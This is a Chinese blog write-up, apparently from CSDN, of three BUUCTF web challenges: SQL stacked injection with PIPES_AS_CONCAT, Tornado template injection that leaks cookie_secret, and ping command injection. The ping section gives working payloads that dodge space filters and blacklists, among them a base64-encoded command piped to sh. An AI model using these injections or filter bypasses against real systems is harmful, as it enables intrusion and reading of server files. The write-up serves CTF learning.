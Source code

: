 <!--yml
category: 未分类
date: 2022-04-26 14:41:18
-->

# BUUCTF部分web题解（easysql，easy_tornado，Ping Ping Ping）_obsetear的博客-CSDN博客_ctf web题ping

> 来源：[https://blog.csdn.net/weixin_44300286/article/details/108512157](https://blog.csdn.net/weixin_44300286/article/details/108512157)

#### easysql

经过测试，发现过滤了很多东西，但有堆叠注入

![在这里插入图片描述](img/b3c908e7cc148daf47cec33c78170746.png)

查询语句大概是

```
select $_GET['query'] || flag from flag 
```

别问我是怎么知道的，问就是看的wp

构造payload：`*,1`，得到`select *,1 || flag from flag`，即可查出表中的内容
![在这里插入图片描述](img/f451ca8bb62c2a64ee5cb75c5077cf17.png)

还可以用另一种解法：通过堆叠注入，设置sql_mode的值为PIPES_AS_CONCAT，从而将||视为字符串的连接操作符而非或运算符。

```
1;set sql_mode=PIPES_AS_CONCAT;select 1 
```

得到`select 1;set sql_mode=PIPES_AS_CONCAT;select 1 || flag from flag`

**拓展**

![在这里插入图片描述](img/8168cdcc951ef1a3174538d0c49da228.png)
![在这里插入图片描述](img/926d16e46517d1ad452ae6d89c9b26e4.png)
`1 || name`被看成了一个整体，上述语句相当于：`select A,B from guestbook`，由于*代表查询所有内容，故能回显出整个表的内容

@@sql_mode：是一组mysql支持的基本语法及校验规则

```
select @@sql_mode;	//查看sql_mode
select @@global.sql_mode;	//查看全局sql_mode
select @@session.sql_mode;	//查看当前会话sql_mode 
```

![在这里插入图片描述](img/2ae5fc8e23d81699ccde8bf6247fec3e.png)
![在这里插入图片描述](img/3977398fbb1912e860ea7974adfa78f2.png)
语句`select 1;set sql_mode=PIPES_AS_CONCAT;select 1 || name from guestbook;`有三个部分，`select 1;`就不用说了，`set sql_mode=PIPES_AS_CONCAT;`设置`sql_mode`的值为`PIPES_AS_CONCAT`，使`||`变成字符串的连接操作符，最后才能使得`select 1 || name from guestbook;`能查询成功

#### easy_tornado

![在这里插入图片描述](img/6d06d2fc353d7e191dd7527a30c5e796.png)
![在这里插入图片描述](img/2ef646e4e64ecb320059772c291b04a3.png)
![在这里插入图片描述](img/af487510a49ded4db1f170ea21410418.png)
三个文件说明了flag在/fllllllllllllag里，`filehash=md5(cookie_secret+md5(filename))`，现在可以构造：`filename=/fllllllllllllag&filehash=？`，现在只有知道cookie_secret就可以构造出完整的payload

payload如果没有构造filehash的值就会跳转到一个报错界面![在这里插入图片描述](img/474a9f14a7e23f4abe614ee4f2a3e7a7.png)
经搜索发现render是python中的一个渲染函数，渲染变量到模板中，即可以通过传递不同的参数形成不同的页面。

测试后发现报错界面存在服务端模板注入攻击 （SSTI），
尝试输入?msg={{1+1}}，发现不存在运算

之后进行各种尝试与资料获取发现对于tornado框架存在附属文件handler.settings,输入?msg={{handler.settings}}

![在这里插入图片描述](img/4002513554a0c7c88ebac8a52d23148c.png)
然后根据公式：`filehash=md5(cookie_secret+md5(filename))`构造出：?`filename=/fllllllllllllag&filehash=b3dd1774657e49becaf9ed92fcd18eda`
![在这里插入图片描述](img/c8d92e15ba7a53375eb45cb9f438c169.png)

#### Ping Ping Ping

命令执行，;或管道符（|）分割批量执行命令
![在这里插入图片描述](img/409c428d363b54076685cf2e2f448be9.png)
![在这里插入图片描述](img/18b349d8dda2a5c4307746ae4674d915.png)
用cat查看一下flag.php，发现过滤了空格

以下几种方法可以替换空格：

```
${IFS}
${IFS}$1
$IFS$1 //$1改成$加其他数字貌似都行
< 
<> 
{cat,flag.php}  //用逗号实现了空格功能 
```

不过这里很多东西都被过滤了，还好`$IFS$1`可以替换成功，但是flag字眼也被过滤了，先查看一下index.php的源码
![在这里插入图片描述](img/33e1af35f0b430ee6f44d336792f1691.png)
这时过滤了什么一眼就可以看出来了，`preg_match("/.*f.*l.*a.*g.*/", $ip)`匹配一个字符串中，是否按顺序出现过flag四个字母

payload1：拼接命令

```
?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php 
```

![在这里插入图片描述](img/f222ef4e476d8ad77cf417d575705fcd.png)
payload2：base64编码绕过

```
?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh 
```

```
Y2F0IGZsYWcucGhw是cat flag.php的base64编码
|base64 -d：对前面的字符串进行base64解密
|sh：把左边的命令交给sh去执行 
```

payload3：内联执行

```
?ip=127.0.0.1;cat$IFS$1`ls` 
```

将反引号内命令的输出作为输入执行，这样也可以查看flag.php的内容

**拓展**

管道符

Linux和windows通用的管道符

```
cmd1 | cmd2 只执行cmd2

cmd1 || cmd2 只有当cmd1执行失败后，cmd2才被执行

cmd1 & cmd2 先执行cmd1，不管是否成功，都会执行cmd2

cmd1 && cmd2 先执行cmd1，cmd1执行成功后才执行cmd2，否则不执行cmd2 
```

![在这里插入图片描述](img/945e7b3dd838684f7b7829ab1e373392.png)
linux还有一个`;`管道符，作用和&一样

**空格过滤**

1、${IFS}

```
${IFS}
${IFS}$1
$IFS$1 
```

![在这里插入图片描述](img/1a469469433321ecca7ce193d6f7b828.png)
2、重定向符<>
![在这里插入图片描述](img/c1b872763235045f5ccdea82bc6311ed.png)
**黑名单过滤**

1、拼接
![在这里插入图片描述](img/31ab4a851c1590027ede3e20ccb14aa9.png)

2、base64编码
![在这里插入图片描述](img/506fb67796a2f7710eceed2a153e20c6.png)

```
|base64 -d：对前面的字符串进行base64解密
|bash：把左边的输出交给bash去执行
|sh：与bash相似 
```

3、单双引号，反斜杠\，`$1`，`$2`，`$@`
![在这里插入图片描述](img/d85bfe850a06af0a1e27b691dd77faa3.png)